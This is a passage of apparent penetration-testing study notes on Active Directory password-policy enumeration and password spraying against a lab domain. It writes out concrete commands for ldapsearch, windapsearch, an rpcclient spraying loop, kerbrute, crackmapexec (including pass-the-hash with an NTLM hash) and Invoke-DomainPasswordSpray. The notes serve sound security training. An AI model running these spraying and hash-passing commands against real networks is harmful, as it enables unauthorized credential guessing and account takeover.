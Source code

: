 	- `ldapsearch -h 172.16.5.5 -x -b "DC=INLANEFREIGHT,DC=LOCAL" -s sub "*" | grep -m 1 -B 10 pwdHistoryLength`
	- `windapsearch` is an easier tool to use
	- `windapsearch --dc-ip 172.16.5.5 -u "" -U`
- If authenticated on a Windows host:
	- `net accounts`

Once you have found a valid set of credentials through enumerating and password spraying, use `crackmapexec` to get a valid user list
- `sudo crackmapexec smb [IP] -u [valid_user] -p [valid_pass] --users`


### Password Spraying

It's common for local administrator accounts across a network to use similar credentials. If you find a set of credentials for a local admin account, spray across other machines in the domain. See under `crackmapexec`

#### From Linux

`Rpcclient`
- `Rpcclient` will not immediately show you a successful login, but you can `grep` for `Authority` in the response.
- One Liner: `for u in $(cat valid_users.txt);do rpcclient -U "$u%Welcome1" -c "getusername;quit" 172.16.5.5 | grep Authority; done`

`Kerbrute`
- `kerbrute passwordspray -d [domain] --dc [IP] user_list.txt [password]`

`Crackmapexec`
- helpful to use `sudo`
- `sudo crackmapexec smb [IP] -u user_list.txt -p password1 | grep +`
- we `grep +` to filter out login failures
- `--continue-on-success` if needed to test all users
- Validate your finding by using `crackmapexec` again but with the proper login
- For spraying local admin accounts across many hosts:
	- `sudo crackmapexec smb --local-auth [IP] -u user -H [NTLM hash]`
	- `--local-auth` is necessary to prevent account lockouts by only trying to authenticate to the local account and not the domain account.

#### From Windows

`DomainPasswordSpray`
- https://github.com/dafthack/DomainPasswordSpray
- If the host is domain-joined you can skip using `-UserList` as the tool will enumerate users for you
- `Invoke-DomainPasswordSpray -Password Welcome1 -OutFile [file] -ErrorAction SilentlyContinue`

`Kerbrute` is available on Windows as well


## Credentialed Enumeration

If you have a foothold or valid credentials (cleartext password, NTLM hash, local SYSTEM session) try these techniques for further access.
